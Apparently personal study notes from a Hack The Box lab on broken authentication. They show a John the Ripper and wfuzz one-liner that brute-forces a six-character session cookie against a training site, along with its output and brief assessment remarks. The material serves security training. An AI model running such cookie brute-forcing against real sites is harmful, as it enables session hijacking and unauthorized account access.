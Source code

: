 We should examine some cookie values, and after having observed that the length is six and the charset consists of lowercase chars and digits, we can start our attack.

[Wfuzz](https://github.com/xmendez/wfuzz/) can be fed by another program using a classic pipe, and we will use `John` as a feeder. We set `John` in incremental mode, using the built-in "LowerNum" charset that matches our observation (`--incremental=LowerNum`), we specify a password length of 6 chars (`--min-length=6 --max-length=6`), and we also instruct `John` to print the output as stdout (`--stdout`). Then, `wfuzz` uses the payload from stdin (`-z stdin`) and fuzzes the "HTBSESS" cookie (`-b HTBSESS=FUZZ`), looking for the string `"Welcome"` (`--ss "Welcome"`) in server responses for the given URL.

```shell
p3ta@htb[/htb]$ john --incremental=LowerNum --min-length=6 --max-length=6 --stdout| wfuzz -z stdin -b HTBSESS=FUZZ --ss "Welcome" -u https://brokenauthentication.hackthebox.eu/profile.php 

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://brokenauth.hackthebox.eu/
Total requests: <<unknown>>

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

Created directory: ~/john-the-ripper/297/.john
Press 'q' or Ctrl-C to abort, almost any other key for status
000009897:   200        9 L      31 W     274 Ch      "abaney"
```

This attack could take a long time, and it is infeasible if the token is lengthy. Chances are higher if cookies last longer than a single session, but do not expect a quick win here. We encourage you to practice using a PHP file you can download [here](https://academy.hackthebox.com/storage/modules/80/scripts/bruteforce_cookie_php.txt). Please read the file carefully and try to make it print the congratulations message.

# Assessment
![[Pasted image 20231220112359.png]]

remove the function for url decoding

![[Pasted image 20231220112638.png]]

The flag wasn't coming up but import the cookie

